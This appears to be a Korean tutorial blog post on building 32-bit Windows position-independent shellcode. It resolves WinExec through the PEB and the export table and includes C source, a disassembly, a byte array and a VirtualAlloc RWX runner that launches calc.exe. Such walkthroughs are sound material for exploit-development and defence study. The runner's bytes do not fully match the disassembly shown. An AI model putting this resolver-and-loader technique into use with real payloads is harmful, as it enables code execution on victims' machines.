








## 목표

- Windows 32비트 유니버셜 쉘코드 개념 이해와 제작 및 실행

---

## 유니버셜 쉘코드란?

먼저 쉘코드는 취약점을 이용하여 특정 명령을 실행하기 위한 기계어 코드를 말한다.

하지만 `ASLR` 기법의 등장으로 인해 이를 우회할 필요가 있었다.

이러한 배경으로 동적으로 함수의 주소를 가져와 실행하는 유니버셜 쉘코드가 탄생하였다.

> `ASLR` 기법이란?  
> 스택, 힙, 라이브러리, 등의 주소를 랜덤한 영역에 배치하여, 주소를 예측하기 어렵게 하는 기법

---

## 함수 주소 동적으로 구하기

`ASLR` 기법을 우회하기 위해 함수의 주소를 동적으로 구해야 한다.

함수의 주소는 `DLL`의 `PE` 헤더를 파싱하여 `Export Table`을 통해 함수의 오프셋을 찾을 수 있다.

그렇기 때문에 먼저 `DLL`의 베이스 주소를 구해야 한다.

---

### DLL Base Address 구하기

이번 글에서는 계산기를 실행하는 것이 목표이기 때문에 프로그램을 실행시키는 `WinExec` 함수가 저장되어 있는 `kernel32.dll`의 주소를 구하도록 하겠다.

---

#### PEB

먼저 `Windows` 운영체제에서 각 프로세스의 정보를 담고 있는 `PEB(Process Environment Block)` 구조체에 접근해야 한다.

`PEB` 구조체는 `fs` 레지스터의 `0x30` 오프셋에 위치한다.



---

#### LDR

다음으로 프로세스에 로드된 모듈(`DLL`)에 대한 정보를 포함하는 `PEB_LDR_DATA` 구조체의 포인터인 `Ldr`에 접근해야 한다.

`Ldr`은 `PEB` 구조체의 `0x0C` 오프셋에 위치한다.



---

#### ModuleList

`PEB_LDR_DATA` 구조체에는 모듈의 정보를 저장하는 3개의 연결 리스트가 있는데, 각각 정렬되는 방식이 다르다.

- `InLoadOrderModuleList` : 메모리에 로드된 순서대로 정렬
- `InMemoryOrderModuleList` : 메모리 상에 배치된 주소 순서대로 정렬
- `InInitializationOrderModuleList` : 초기화된 순서대로 정렬



---

#### DllBase

보통의 경우에는 메모리에 배치되는 순서가 `Process Image` -> `ntdll.dll` -> `kernel32.dll` 이기 때문에 `InMemoryOrderModuleList`의 세 번째 모듈이 `kernel32.dll`에 해당한다.

&nbsp;

`windbg`를 통해 직접 확인해볼 수 있다.



---

### Export Table RVA 구하기

`kernel32.dll`의 주소를 구했으니 이제 프로그램에서 내보낸 함수의 목록이 저장된 `Export Table`을 찾아야 한다.

`Export Table`의 위치는 `Data Directory`에 저장된 `Export Table`의 `RVA`를 통해 구할 수 있다.

---

#### NT Header

먼저 `PE` 파일의 로딩 정보를 저장하는 `NT Header`에 접근해야 한다.

`NT Header`의 위치는 `e_lfanew`에 저장되어 있는 오프셋을 통해 구할 수 있는데, 이는 `DllBase(DOS Header)`의 `0x3C` 오프셋에 저장되어 있다.



---

#### Optional Header

다음으로 프로그램 실행에 필요한 정보를 담고 있는 `Optional Header`에 접근해야 한다.

`Optional Header`는 `NT Header`의 `0x18` 오프셋에 위치한다.



---

#### Data Directory

이제 `Export Table`의 `RVA`가 저장되어 있는 `Data Directory`에 접근해야 한다.

`Data Directory`는 `Optional Header`의 `0x60` 오프셋에 위치한다.



---

#### Export Table RVA

`Export Table`의 `RVA`는 `Data Directory` 배열의 첫번째 항목이다.



---

### WinExec 함수 RVA 구하기

이제 `Export Table`의 필드들을 순회하며 필요한 값들을 이용하여 `WinExec` 함수의 `RVA`를 구해야 한다.

---

#### Export Table Fields

`Export Table`은 함수의 이름과 주소를 저장한 `RVA`를 포함하는데, 아래 필드들을 이용할 것이다.

- `AddressOfFunctions` : 함수들의 주소 배열의 `RVA` (오프셋 : `0x1C`)
- `AddressOfNames` : 함수 이름들의 `RVA` 배열의 `RVA` (오프셋 : `0x20`)
- `AddressOfNameOrdinals` : 이름과 함수 주소를 매핑하는 `Ordinals` 배열의 `RVA` (오프셋 : `0x24`)

---

#### 구하는 방법

`AddressOfNames` 필드에 접근하여 `WinExec`라는 이름의 함수의 인덱스를 기억한 뒤에, 

`AddressOfNameOrdinals` 배열에 접근해서 인덱스번째의 `Ordinal` 값을 저장하면,

`AddressOfFunctions` 배열의 `Ordinal` 번째의 값이 `WinExec` 함수의 `RVA` 값이 될 것이다.

따라서 `WinExec` 함수의 `RVA` 값을 `kernel32.dll`의 `DllBase`에 더하면 `WinExec`의 절대 주소가 된다.

---

## 쉘코드 구현

위 정보들을 바탕으로 C언어로 쉘코드를 작성하여 컴파일한 뒤 추출하여 쉘코드로써 실행해보도록 하겠다.

---

### C 코드 작성

`Inline Assembly`를 이용하면 `fs` 레지스터를 통해 `PEB`에 접근할 수 있다.

앞서 설명한 방법들을 통해 `Export Table`의 필드들을 순회하여 `WinExec` 함수의 주소를 구하였다.

`"WinExec"`나 `"calc.exe"`와 같은 문자열 리터럴 값은 이후 쉘코드로 추출하였을 때 그 배열을 **절대주소**로 불러오기 때문에, 이를 방지하기 위해 `ASCII` 값으로 저장하였다.

```c
// compile : gcc -o shellcode.exe shellcode.c -m32

#include <windows.h>

int main() {
    
    // kernel32.dll Base 주소 구하기
    char *PEB;
    __asm__ ("movl %%fs:0x30, %0" : "=r" (PEB)); // Inline Assembly(gcc)를 사용해 fs 레지스터에 접근
    char *Ldr = (char *)*(int *)(PEB + 0x0C);
    char *InMemoryOrderModuleList = (char *)*(int *)(Ldr + 0x14);
    char *ntdll = (char *)*(int *)(InMemoryOrderModuleList + 0x00);
    char *kernel32 = (char *)*(int *)(ntdll + 0x00); 
    char *DllBase = (char *)*(int *)(kernel32 + 0x10);

    // Export Table 주소 구하기
    int e_lfanew = *(int *)(DllBase + 0x3C);
    char *NT_Header = (char *)(DllBase + e_lfanew);
    char *Optional_Header = (char *)(NT_Header + 0x18);
    char *Data_Directory = (char *)(Optional_Header + 0x60);
    int Export_Table_RVA = *(int *)(Data_Directory + 0x00);
    char *Export_Table_Addr = (char *)(DllBase + Export_Table_RVA);

    // Export Table Fields 주소 구하기
    char *AddressOfFunctions = (char *)(DllBase + *(int *)(Export_Table_Addr + 0x1C));
    char *AddressOfNames = (char *)(DllBase + *(int *)(Export_Table_Addr + 0x20));
    char *AddressOfNameOrdinals = (char *)(DllBase + *(int *)(Export_Table_Addr + 0x24));

    int i = 0;

    char WinExec_Name[] = {0x57, 0x69, 0x6E, 0x45, 0x78, 0x65, 0x63, 0x00};

    while (1) { // 순회하며 WinExec 함수 찾기
        char *Func_Name = (char *)*(int *)(AddressOfNames + i * sizeof(int)) + (int)DllBase;
        if (Func_Name[0] == WinExec_Name[0] &&
            Func_Name[1] == WinExec_Name[1] &&
            Func_Name[2] == WinExec_Name[2] &&
            Func_Name[3] == WinExec_Name[3] &&
            Func_Name[4] == WinExec_Name[4] &&
            Func_Name[5] == WinExec_Name[5] &&
            Func_Name[6] == WinExec_Name[6]) {
            break;
        }

        i++;
    }

    int WinExec_index = i;


    // Export Table Fields 구하기
    short ordinal = *(short*)(AddressOfNameOrdinals + WinExec_index * sizeof(short));
    int WinExec_RVA = *(int*)(AddressOfFunctions + ordinal * sizeof(int));
    char* WinExec_Addr = (char*)(DllBase + WinExec_RVA);

    char calcexe[] = {0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00};

    // WinExec 호출
    int (*WinExec)(const char *, unsigned int) = (int (*)(const char *, unsigned int))WinExec_Addr;
    WinExec(calcexe, 0);

    return 0;
}
```

---

### 쉘코드 추출

`objdump`를 통해 바이트 코드로 추출하였다.

`_main` 함수에서 `PEB`를 가져오는 부분부터 호출하는 부분까지만 사용하면 된다.

```
4014fe:	64 a1 30 00 00 00    	mov    %fs:0x30,%eax
401504:	89 44 24 78          	mov    %eax,0x78(%esp)
401508:	8b 44 24 78          	mov    0x78(%esp),%eax
40150c:	83 c0 0c             	add    $0xc,%eax
40150f:	8b 00                	mov    (%eax),%eax
401511:	89 44 24 74          	mov    %eax,0x74(%esp)
401515:	8b 44 24 74          	mov    0x74(%esp),%eax
401519:	83 c0 14             	add    $0x14,%eax
40151c:	8b 00                	mov    (%eax),%eax
40151e:	89 44 24 70          	mov    %eax,0x70(%esp)
401522:	8b 44 24 70          	mov    0x70(%esp),%eax
401526:	8b 00                	mov    (%eax),%eax
401528:	89 44 24 6c          	mov    %eax,0x6c(%esp)
40152c:	8b 44 24 6c          	mov    0x6c(%esp),%eax
401530:	8b 00                	mov    (%eax),%eax
401532:	89 44 24 68          	mov    %eax,0x68(%esp)
401536:	8b 44 24 68          	mov    0x68(%esp),%eax
40153a:	83 c0 10             	add    $0x10,%eax
40153d:	8b 00                	mov    (%eax),%eax
40153f:	89 44 24 64          	mov    %eax,0x64(%esp)
401543:	8b 44 24 64          	mov    0x64(%esp),%eax
401547:	8b 40 3c             	mov    0x3c(%eax),%eax
40154a:	89 44 24 60          	mov    %eax,0x60(%esp)
40154e:	8b 54 24 60          	mov    0x60(%esp),%edx
401552:	8b 44 24 64          	mov    0x64(%esp),%eax
401556:	01 d0                	add    %edx,%eax
401558:	89 44 24 5c          	mov    %eax,0x5c(%esp)
40155c:	8b 44 24 5c          	mov    0x5c(%esp),%eax
401560:	83 c0 18             	add    $0x18,%eax
401563:	89 44 24 58          	mov    %eax,0x58(%esp)
401567:	8b 44 24 58          	mov    0x58(%esp),%eax
40156b:	83 c0 60             	add    $0x60,%eax
40156e:	89 44 24 54          	mov    %eax,0x54(%esp)
401572:	8b 44 24 54          	mov    0x54(%esp),%eax
401576:	8b 00                	mov    (%eax),%eax
401578:	89 44 24 50          	mov    %eax,0x50(%esp)
40157c:	8b 54 24 50          	mov    0x50(%esp),%edx
401580:	8b 44 24 64          	mov    0x64(%esp),%eax
401584:	01 d0                	add    %edx,%eax
401586:	89 44 24 4c          	mov    %eax,0x4c(%esp)
40158a:	8b 44 24 4c          	mov    0x4c(%esp),%eax
40158e:	83 c0 1c             	add    $0x1c,%eax
401591:	8b 00                	mov    (%eax),%eax
401593:	89 c2                	mov    %eax,%edx
401595:	8b 44 24 64          	mov    0x64(%esp),%eax
401599:	01 d0                	add    %edx,%eax
40159b:	89 44 24 48          	mov    %eax,0x48(%esp)
40159f:	8b 44 24 4c          	mov    0x4c(%esp),%eax
4015a3:	83 c0 20             	add    $0x20,%eax
4015a6:	8b 00                	mov    (%eax),%eax
4015a8:	89 c2                	mov    %eax,%edx
4015aa:	8b 44 24 64          	mov    0x64(%esp),%eax
4015ae:	01 d0                	add    %edx,%eax
4015b0:	89 44 24 44          	mov    %eax,0x44(%esp)
4015b4:	8b 44 24 4c          	mov    0x4c(%esp),%eax
4015b8:	83 c0 24             	add    $0x24,%eax
4015bb:	8b 00                	mov    (%eax),%eax
4015bd:	89 c2                	mov    %eax,%edx
4015bf:	8b 44 24 64          	mov    0x64(%esp),%eax
4015c3:	01 d0                	add    %edx,%eax
4015c5:	89 44 24 40          	mov    %eax,0x40(%esp)
4015c9:	c7 44 24 7c 00 00 00 	movl   $0x0,0x7c(%esp)
4015d0:	00 
4015d1:	c7 44 24 20 57 69 6e 	movl   $0x456e6957,0x20(%esp)
4015d8:	45 
4015d9:	c7 44 24 24 78 65 63 	movl   $0x636578,0x24(%esp)
4015e0:	00 
4015e1:	8b 44 24 7c          	mov    0x7c(%esp),%eax
4015e5:	8d 14 85 00 00 00 00 	lea    0x0(,%eax,4),%edx
4015ec:	8b 44 24 44          	mov    0x44(%esp),%eax
4015f0:	01 d0                	add    %edx,%eax
4015f2:	8b 00                	mov    (%eax),%eax
4015f4:	89 c2                	mov    %eax,%edx
4015f6:	8b 44 24 64          	mov    0x64(%esp),%eax
4015fa:	01 d0                	add    %edx,%eax
4015fc:	89 44 24 3c          	mov    %eax,0x3c(%esp)
401600:	8b 44 24 3c          	mov    0x3c(%esp),%eax
401604:	0f b6 10             	movzbl (%eax),%edx
401607:	0f b6 44 24 20       	movzbl 0x20(%esp),%eax
40160c:	38 c2                	cmp    %al,%dl
40160e:	75 72                	jne    401682 <_main+0x192>
401610:	8b 44 24 3c          	mov    0x3c(%esp),%eax
401614:	83 c0 01             	add    $0x1,%eax
401617:	0f b6 10             	movzbl (%eax),%edx
40161a:	0f b6 44 24 21       	movzbl 0x21(%esp),%eax
40161f:	38 c2                	cmp    %al,%dl
401621:	75 5f                	jne    401682 <_main+0x192>
401623:	8b 44 24 3c          	mov    0x3c(%esp),%eax
401627:	83 c0 02             	add    $0x2,%eax
40162a:	0f b6 10             	movzbl (%eax),%edx
40162d:	0f b6 44 24 22       	movzbl 0x22(%esp),%eax
401632:	38 c2                	cmp    %al,%dl
401634:	75 4c                	jne    401682 <_main+0x192>
401636:	8b 44 24 3c          	mov    0x3c(%esp),%eax
40163a:	83 c0 03             	add    $0x3,%eax
40163d:	0f b6 10             	movzbl (%eax),%edx
401640:	0f b6 44 24 23       	movzbl 0x23(%esp),%eax
401645:	38 c2                	cmp    %al,%dl
401647:	75 39                	jne    401682 <_main+0x192>
401649:	8b 44 24 3c          	mov    0x3c(%esp),%eax
40164d:	83 c0 04             	add    $0x4,%eax
401650:	0f b6 10             	movzbl (%eax),%edx
401653:	0f b6 44 24 24       	movzbl 0x24(%esp),%eax
401658:	38 c2                	cmp    %al,%dl
40165a:	75 26                	jne    401682 <_main+0x192>
40165c:	8b 44 24 3c          	mov    0x3c(%esp),%eax
401660:	83 c0 05             	add    $0x5,%eax
401663:	0f b6 10             	movzbl (%eax),%edx
401666:	0f b6 44 24 25       	movzbl 0x25(%esp),%eax
40166b:	38 c2                	cmp    %al,%dl
40166d:	75 13                	jne    401682 <_main+0x192>
40166f:	8b 44 24 3c          	mov    0x3c(%esp),%eax
401673:	83 c0 06             	add    $0x6,%eax
401676:	0f b6 10             	movzbl (%eax),%edx
401679:	0f b6 44 24 26       	movzbl 0x26(%esp),%eax
40167e:	38 c2                	cmp    %al,%dl
401680:	74 0a                	je     40168c <_main+0x19c>
401682:	83 44 24 7c 01       	addl   $0x1,0x7c(%esp)
401687:	e9 55 ff ff ff       	jmp    4015e1 <_main+0xf1>
40168c:	90                   	nop
40168d:	8b 44 24 7c          	mov    0x7c(%esp),%eax
401691:	89 44 24 38          	mov    %eax,0x38(%esp)
401695:	8b 44 24 38          	mov    0x38(%esp),%eax
401699:	8d 14 00             	lea    (%eax,%eax,1),%edx
40169c:	8b 44 24 40          	mov    0x40(%esp),%eax
4016a0:	01 d0                	add    %edx,%eax
4016a2:	0f b7 00             	movzwl (%eax),%eax
4016a5:	66 89 44 24 36       	mov    %ax,0x36(%esp)
4016aa:	0f bf 44 24 36       	movswl 0x36(%esp),%eax
4016af:	8d 14 85 00 00 00 00 	lea    0x0(,%eax,4),%edx
4016b6:	8b 44 24 48          	mov    0x48(%esp),%eax
4016ba:	01 d0                	add    %edx,%eax
4016bc:	8b 00                	mov    (%eax),%eax
4016be:	89 44 24 30          	mov    %eax,0x30(%esp)
4016c2:	8b 54 24 30          	mov    0x30(%esp),%edx
4016c6:	8b 44 24 64          	mov    0x64(%esp),%eax
4016ca:	01 d0                	add    %edx,%eax
4016cc:	89 44 24 2c          	mov    %eax,0x2c(%esp)
4016d0:	c7 44 24 17 63 61 6c 	movl   $0x636c6163,0x17(%esp)
4016d7:	63 
4016d8:	c7 44 24 1b 2e 65 78 	movl   $0x6578652e,0x1b(%esp)
4016df:	65 
4016e0:	c6 44 24 1f 00       	movb   $0x0,0x1f(%esp)
4016e5:	8b 44 24 2c          	mov    0x2c(%esp),%eax
4016e9:	89 44 24 28          	mov    %eax,0x28(%esp)
4016ed:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
4016f4:	00 
4016f5:	8d 44 24 17          	lea    0x17(%esp),%eax
4016f9:	89 04 24             	mov    %eax,(%esp)
4016fc:	8b 44 24 28          	mov    0x28(%esp),%eax
401700:	ff d0                	call   *%eax
```

---

### 쉘코드 실행

메모리에 쉘코드를 복사하여 실행하면 계산기가 실행되는 것을 확인할 수 있다.

```c
// compile : gcc -o shellcode_runner.exe shellcode_runner.c

#include <windows.h>

unsigned char shellcode[] = {
    0x64, 0xa1, 0x30, 0x00, 0x00, 0x00, 0x89, 0x44, 0x24, 0x78, 0x8b, 0x44, 0x24, 0x78, 0x83, 0xc0, 0x0c, 0x8b, 0x00, 0x89, 0x44, 0x24, 0x74, 0x8b, 0x44, 0x24, 0x74, 0x83, 0xc0, 0x14, 0x8b, 0x00, 0x89, 0x44, 0x24, 0x70, 0x8b, 0x44, 0x24, 0x70, 0x8b, 0x00, 0x89, 0x44, 0x24, 0x6c, 0x8b, 0x44, 0x24, 0x6c, 0x8b, 0x00, 0x89, 0x44, 0x24, 0x68, 0x8b, 0x44, 0x24, 0x68, 0x83, 0xc0, 0x10, 0x8b, 0x00, 0x89, 0x44, 0x24, 0x64, 0x8b, 0x44, 0x24, 0x64, 0x8b, 0x40, 0x3c, 0x89, 0x44, 0x24, 0x60, 0x8b, 0x54, 0x24, 0x60, 0x8b, 0x44, 0x24, 0x64, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x5c, 0x8b, 0x44, 0x24, 0x5c, 0x8b, 0x40, 0x78, 0x89, 0x44, 0x24, 0x58, 0x8b, 0x54, 0x24, 0x58, 0x8b, 0x44, 0x24, 0x64, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x54, 0x8b, 0x44, 0x24, 0x54, 0x83, 0xc0, 0x1c, 0x8b, 0x00, 0x89, 0xc2, 0x8b, 0x44, 0x24, 0x64, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x50, 0x8b, 0x44, 0x24, 0x54, 0x83, 0xc0, 0x20, 0x8b, 0x00, 0x89, 0xc2, 0x8b, 0x44, 0x24, 0x64, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x4c, 0x8b, 0x44, 0x24, 0x54, 0x83, 0xc0, 0x24, 0x8b, 0x00, 0x89, 0xc2, 0x8b, 0x44, 0x24, 0x64, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x48, 0xc7, 0x44, 0x24, 0x7c, 0x00, 0x00, 0x00, 0x00, 0xc7, 0x44, 0x24, 0x28, 0x57, 0x69, 0x6e, 0x45, 0xc7, 0x44, 0x24, 0x2c, 0x78, 0x65, 0x63, 0x00, 0x8b, 0x44, 0x24, 0x7c, 0x8d, 0x14, 0x85, 0x00, 0x00, 0x00, 0x00, 0x8b, 0x44, 0x24, 0x4c, 0x01, 0xd0, 0x8b, 0x00, 0x89, 0xc2, 0x8b, 0x44, 0x24, 0x64, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x44, 0x8b, 0x44, 0x24, 0x44, 0x0f, 0xb6, 0x10, 0x0f, 0xb6, 0x44, 0x24, 0x28, 0x38, 0xc2, 0x75, 0x72, 0x8b, 0x44, 0x24, 0x44, 0x83, 0xc0, 0x01, 0x0f, 0xb6, 0x10, 0x0f, 0xb6, 0x44, 0x24, 0x29, 0x38, 0xc2, 0x75, 0x5f, 0x8b, 0x44, 0x24, 0x44, 0x83, 0xc0, 0x02, 0x0f, 0xb6, 0x10, 0x0f, 0xb6, 0x44, 0x24, 0x2a, 0x38, 0xc2, 0x75, 0x4c, 0x8b, 0x44, 0x24, 0x44, 0x83, 0xc0, 0x03, 0x0f, 0xb6, 0x10, 0x0f, 0xb6, 0x44, 0x24, 0x2b, 0x38, 0xc2, 0x75, 0x39, 0x8b, 0x44, 0x24, 0x44, 0x83, 0xc0, 0x04, 0x0f, 0xb6, 0x10, 0x0f, 0xb6, 0x44, 0x24, 0x2c, 0x38, 0xc2, 0x75, 0x26, 0x8b, 0x44, 0x24, 0x44, 0x83, 0xc0, 0x05, 0x0f, 0xb6, 0x10, 0x0f, 0xb6, 0x44, 0x24, 0x2d, 0x38, 0xc2, 0x75, 0x13, 0x8b, 0x44, 0x24, 0x44, 0x83, 0xc0, 0x06, 0x0f, 0xb6, 0x10, 0x0f, 0xb6, 0x44, 0x24, 0x2e, 0x38, 0xc2, 0x74, 0x0a, 0x83, 0x44, 0x24, 0x7c, 0x01, 0xe9, 0x55, 0xff, 0xff, 0xff, 0x90, 0x8b, 0x44, 0x24, 0x7c, 0x89, 0x44, 0x24, 0x40, 0x8b, 0x44, 0x24, 0x40, 0x8d, 0x14, 0x00, 0x8b, 0x44, 0x24, 0x48, 0x01, 0xd0, 0x0f, 0xb7, 0x00, 0x66, 0x89, 0x44, 0x24, 0x3e, 0x0f, 0xbf, 0x44, 0x24, 0x3e, 0x8d, 0x14, 0x85, 0x00, 0x00, 0x00, 0x00, 0x8b, 0x44, 0x24, 0x50, 0x01, 0xd0, 0x8b, 0x00, 0x89, 0x44, 0x24, 0x38, 0x8b, 0x54, 0x24, 0x38, 0x8b, 0x44, 0x24, 0x64, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x34, 0xc7, 0x44, 0x24, 0x1f, 0x63, 0x61, 0x6c, 0x63, 0xc7, 0x44, 0x24, 0x23, 0x2e, 0x65, 0x78, 0x65, 0xc6, 0x44, 0x24, 0x27, 0x00, 0x8b, 0x44, 0x24, 0x34, 0x89, 0x44, 0x24, 0x30, 0xc7, 0x44, 0x24, 0x04, 0x00, 0x00, 0x00, 0x00, 0x8d, 0x44, 0x24, 0x1f, 0x89, 0x04, 0x24, 0x8b, 0x44, 0x24, 0x30, 0xff, 0xd0
};

int main() {
    void* exec_mem = VirtualAlloc(
        NULL,                          
        sizeof(shellcode),             
        MEM_COMMIT | MEM_RESERVE,      
        PAGE_EXECUTE_READWRITE         
    );

    memcpy(exec_mem, shellcode, sizeof(shellcode));

    ((void(*)())exec_mem)();

    return 0;
}
```